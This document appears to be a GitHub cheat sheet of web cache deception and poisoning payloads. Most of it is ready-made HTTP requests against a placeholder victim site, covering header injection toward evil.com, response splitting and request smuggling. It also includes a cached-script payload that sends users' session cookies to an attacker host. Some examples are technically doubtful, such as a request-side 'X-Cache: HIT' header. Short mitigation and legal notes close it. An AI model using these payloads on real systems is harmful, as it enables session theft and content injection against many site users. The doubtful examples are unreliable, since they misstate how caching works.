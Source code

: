 # **Cache Deception & Poisoning Payload Cheat Sheet**

Cache deception exploits manipulate web caches (CDNs, reverse proxies) to store and serve malicious content to users. Below are various payloads for testing and exploiting cache-related vulnerabilities.

---

## **1. Basic Cache Poisoning Techniques**

### **Injecting Malicious Headers via Parameter Pollution**
```http
GET /profile?utm_id=123 HTTP/1.1
Host: victim.com
X-Forwarded-Host: evil.com
```

### **Cache Key Normalization Bypass**
```http
GET /index.php?param=test HTTP/1.1
Host: victim.com
X-Original-URL: /admin
```

---

## **2. Cache Deception via Path Manipulation**

### **Trailing Slash Trick (Stores /account/ as static page)**
```http
GET /account//profile.css HTTP/1.1
Host: victim.com
```

### **File Extension Trick (Stores JSON as cacheable)**
```http
GET /api/user.json?callback=malicious HTTP/1.1
Host: victim.com
```

---

## **3. Cache Poisoning via Header Injection**

### **Unkeyed Header Injection**
```http
GET / HTTP/1.1
Host: victim.com
X-Host: evil.com
```

### **Response Splitting for Cache Poisoning**
```http
GET /?param=test%0d%0aContent-Length: 0%0d%0a%0d%0aHTTP/1.1 200 OK%0d%0aContent-Type: text/html%0d%0a%0d%0a<h1>Hacked</h1> HTTP/1.1
Host: victim.com
```

---

## **4. Web Cache Deception (WCD) Exploits**

### **Forcing Cache of Private Data**
```http
GET /account/settings.css HTTP/1.1
Host: victim.com
Cookie: sessionid=USER_SESSION
```

### **Storing JSONP as Static Content**
```http
GET /user/data.json?callback=alert(1) HTTP/1.1
Host: victim.com
```

---

## **5. Cache Poisoning via HTTP Request Smuggling**

### **CL.TE Smuggling to Poison Cache**
```http
POST / HTTP/1.1
Host: victim.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
0

GET /poisoned HTTP/1.1
Host: victim.com
```

### **TE.CL Smuggling with Cache Impact**
```http
POST / HTTP/1.1
Host: victim.com
Transfer-Encoding: chunked
Content-Length: 6

0

GET /admin HTTP/1.1
Host: victim.com
```

---

## **6. DOM-Based Cache Poisoning**

### **Injecting Malicious JavaScript via Cached Fragment**
```html
<script>
  location = 'https://victim.com/home#<script>alert(1)</script>';
</script>
```

---

## **7. Cloud-Specific Cache Poisoning**

### **AWS CloudFront Cache Poisoning**
```http
GET / HTTP/1.1
Host: victim.com
X-Forwarded-Port: 443
X-Forwarded-Proto: https,http
```

### **Akamai Cache-Control Bypass**
```http
GET /static/page.html HTTP/1.1
Host: victim.com
Pragma: akamai-x-get-cache-key
```

---

## **8. Cache Poisoning via Redirects**

### **Open Redirect + Cache Poisoning**
```http
GET /redirect?url=https://evil.com HTTP/1.1
Host: victim.com
X-Cache: HIT
```

### **Meta Tag Cache Poisoning**
```html
<meta http-equiv="refresh" content="0; url=https://victim.com/?malicious=payload">
```

---

## **9. Real-World Exploit Examples**

### **Stealing Session Cookies via Cached JS**
```http
GET /static/scripts.js?callback=document.write('<img src="https://evil.com/?c='+document.cookie+'>') HTTP/1.1
Host: victim.com
```

### **Admin Panel Cache Poisoning**
```http
GET /admin//style.css HTTP/1.1
Host: victim.com
Cookie: admin_session=LEGIT_SESSION
```

---

## **Testing Methodology**
1. **Identify Cacheable Endpoints** (static files, APIs with caching headers)
2. **Test Unkeyed Inputs** (headers, parameters not part of cache key)
3. **Verify Cache Storage** (observe `X-Cache: HIT` responses)
4. **Check for Cache Invalidation Flaws**
5. **Exploit Cache Poisoning for XSS/Data Theft**

---

## **Mitigation**
- **Validate all cache keys strictly**
- **Never cache sensitive content**
- **Implement proper `Vary` headers**
- **Use `Cache-Control: private` for user-specific data**
- **Regularly purge unused cache entries**

---

### **⚠️ Legal & Ethical Considerations**
- **Only test on authorized systems**
- **Cache poisoning can affect many users**
- **Disclose responsibly if found in production**

---

This cheat sheet covers various cache deception and poisoning techniques for penetration testing. Use responsibly! 🚀